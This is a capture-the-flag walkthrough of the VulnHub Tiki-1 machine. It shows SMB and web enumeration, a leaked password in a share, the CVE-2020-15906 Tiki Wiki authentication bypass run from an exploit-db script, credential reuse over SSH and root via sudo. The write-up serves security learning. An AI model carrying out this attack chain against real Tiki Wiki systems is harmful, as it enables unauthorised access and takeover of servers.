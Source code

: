 # Recon
---
## NMAP
- tcp/22
- tcp/80
- tcp/139
- tcp/445
- udp/137
- udp/5353

## TCP/139,445 - SMB

###  Enum4linux
```
[*] Users via RPC on 192.168.110.104   
[*] Enumerating users via 'querydispinfo'
[+] Found 1 users via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 1 users via 'enumdomusers'
[+] After merging user results we have 1 users total:
'1000':
	username: silky
	name: Silky
	acb: '0x00000010'
	description: ''
```
- User `silky`

### Crackmapexec + SMBMap
![](images/Pasted%20image%2020220121224951.png)
- Able to read `Notes` fileshare

## TCP/80
### FFUF
```
┌──(root💀kali)-[~/vulnHub/Tiki1/192.168.110.104]
└─# ffuf -u http://$ip/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.110.104/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 280, Words: 20, Lines: 10]
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376]
robots.txt              [Status: 200, Size: 42, Words: 4, Lines: 4]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10]
tiki                    [Status: 301, Size: 317, Words: 20, Lines: 10]
:: Progress: [4614/4614] :: Job [1/1] :: 6140 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```
- `robots.txt`
- `tiki`




# Initial Foothold
---
## TCP/139,445 - SMB 
1. Earlier, we enumerated SMB Fileshare w/ a NULL session, we have READ access to `Notes` fileshare
2. Download all files in `Notes` fileshare & view its content
	```
	┌──(root💀kali)-[~/vulnHub/Tiki1/192.168.110.104/loot/smb]
	└─# smbclient //$ip/Notes -c 'prompt;recurse;mget *'
	Enter WORKGROUP\root's password: 
	getting file \Mail.txt of size 244 as Mail.txt (14.0 KiloBytes/sec) (average 14.0 KiloBytes/sec)
	┌──(root💀kali)-[~/vulnHub/Tiki1/192.168.110.104/loot/smb]
	└─# ls
	Mail.txt
	┌──(root💀kali)-[~/vulnHub/Tiki1/192.168.110.104/loot/smb]
	└─# cat Mail.txt 
	Hi Silky
	because of a current Breach we had to change all Passwords,
	please note that it was a 0day, we don't know how he made it.

	Your new CMS-password is now 51lky571k1, 
	please investigate how he made it into our Admin Panel.

	Cheers Boss.

	```
## TCP/80 - HTTP
1. Proceed to `/tiki`
	![](images/Pasted%20image%2020220121230715.png)
2. Proceed to `/tiki/tiki-login.php`
	![](images/Pasted%20image%2020220121230848.png)
3. Login w/ silky:`51lky571k1`
	![](images/Pasted%20image%2020220121232020.png)
4. Proceed to `/tiki/tiki-listpages.php`
	![](images/Pasted%20image%2020220121232452.png)
	![](images/Pasted%20image%2020220121232527.png)
5. After looking through the History of Silky homepage, found this
	![](images/Pasted%20image%2020220121232639.png)
	- `CVE-2020-15906`
6. View `CVE-2020-15906` - Tiki 21.1-2
	- https://www.exploit-db.com/exploits/48927
	- https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-15906
		![](images/Pasted%20image%2020220121232946.png)
		- We are able to set admin's password to a blank value after 50 failed login attempts.
7. Search for exploits 
	```
	 ┌──(root💀kali)-[~/vulnHub/Tiki1/192.168.110.104/loot/smb]
	 └─# searchsploit tiki 21
	------------------------------------------------------------------------------------
	Exploit Title                                        |  Path				
	------------------------------------------------------------------------------------
	Tiki Wiki CMS Groupware 21.1 - Authentication Bypass | php/webapps/48927.py
	------------------------------------------------------------------------------------
	```
8. Use exploit
	```
	┌──(root💀kali)-[~/vulnHub/Tiki1/192.168.110.104/exploit/tiki-21.1]
	└─# python3 48927.py $ip
	Admin Password got removed.
	Use BurpSuite to login into admin without a password 

	```
9. Login w/ admin:blank w/ Burpsuite
	1. Login w/ admin:test
	2. Intercept w/ burp and remove the password test
		![](images/Pasted%20image%2020220121233907.png)
	3. Turn off intercept
10. Proceed to List Pages -> Credentials
	![](images/Pasted%20image%2020220121235530.png)
	- silky:Agy8Y7SPJNXQzqA

## TCP/22 - SSH
1. SSH w/ silky:Agy8Y7SPJNXQzqA
![](images/Pasted%20image%2020220121235722.png)

# Privilege Escalation
---
## Root via Sudo
```
silky@ubuntu:~$ sudo -l
[sudo] Passwort für silky: 
Das hat nicht funktioniert, bitte nochmal probieren.
[sudo] Passwort für silky: 
Passende Defaults-Einträge für silky auf ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

Der Benutzer silky darf die folgenden Befehle auf ubuntu ausführen:
    (ALL : ALL) ALL
silky@ubuntu:~$ sudo su
root@ubuntu:/home/silky# whoami
root
root@ubuntu:/home/silky# 

```
![](images/Pasted%20image%2020220121235821.png)

---
